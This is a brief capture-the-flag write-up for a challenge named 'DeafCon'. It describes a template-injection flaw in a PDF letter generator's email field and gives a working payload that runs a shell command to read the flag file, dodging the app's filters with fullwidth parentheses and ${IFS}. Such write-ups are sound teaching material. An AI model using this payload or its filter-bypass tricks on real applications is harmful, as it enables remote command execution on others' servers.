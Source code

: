 ## DeafCon 
> Deafcon 2022 is finally here! Make sure you don't miss it.

App have genarate letter pdf function that vulnerable to SSTI on `email` field. After quick fuzzing i detect that email must have '@' and app filter (, ) and space char  
Then i use `UTF8 encoding` to bypass (, ) and `{IFS}` to bypass space in command.  
`test%40{{config.__class__.__init__.__globals__.os.popen%EF%BC%88'cat${IFS}flag.txt'%EF%BC%89.read%EF%BC%88%EF%BC%89}}`  
Flag:  
![Alt text](flag.png?raw=true "Title")  